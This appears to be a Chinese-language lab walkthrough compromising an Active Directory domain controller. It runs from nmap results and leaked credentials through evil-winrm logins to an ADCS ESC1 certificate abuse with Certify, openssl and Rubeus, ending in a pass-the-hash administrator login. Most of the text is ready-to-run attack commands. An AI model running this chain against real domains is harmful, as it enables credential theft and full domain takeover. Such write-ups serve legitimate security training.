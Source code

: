 # nmap

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-12 22:50 CST
Nmap scan report for 10.10.11.202
Host is up (2.4s latency).
Not shown: 65515 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
1433/tcp  open  ms-sql-s
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
49667/tcp open  unknown
49689/tcp open  unknown
49690/tcp open  unknown
49709/tcp open  unknown
49719/tcp open  unknown
49743/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 32.57 seconds
```

在smb共享的public目录下的sql server.pdf中发现账号密码

```
sql_svc:REGGIE1234ronnie
```

evil-winrm（5985端口打开时才可使用这个连接）

```
evil-winrm  -i 10.10.11.202 -u sql_svc -p REGGIE1234ronnie
```

在sql目录下的log日志中找到账号密码

```
Ryan.Cooper：NuclearMosquito3


evil-winrm  -i 10.10.11.202 -u Ryan.Cooper -p NuclearMosquito3
```

同样的方法登录后发现user.txt



Certify.exe可以列举系统上的证书，可以发现有漏洞的证书

原理就是，利用有漏洞的证书给管理员创建证书，使用证书去连接



```
  Certify.exe find /vulnerable 扫描有漏洞的证书
```

**漏洞一：**
THESHIRE\Domain 用户可以注册 VulnTemplate 模板，该模板可用于客户端身份验证，并已设置 ENROLLEE_SUPPLIES_SUBJECT （ESC1）

这允许任何人注册此模板并指定任意 Subject Alternative Name （（主题备用名称） （，即作为 DA）。

```
Certify.exe request /ca:dc.theshire.local\theshire-DC-CA /template:VulnTemplate /altname:localadmin
```

将该 ` -----BEGIN RSA PRIVATE KEY----- ... -----END CERTIFICATE-----` 部分复制到 Linux/macOS 上的文件，然后运行 openssl 命令将其转换为 .pfx。出现提示时，请勿输入密码：

```
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```

然后将pfx文件上传windows

```
Rubeus.exe asktgt /user:localadmin /certificate:C:\Temp\cert.pfx /getcredentials
```

得到管理员的NTLM，然后使用这个去登录

```
evil-winrm  -i 10.10.11.202 -u Administrator -H A52F78E4C751E5F5E17E1E9F3E58F4EE
```

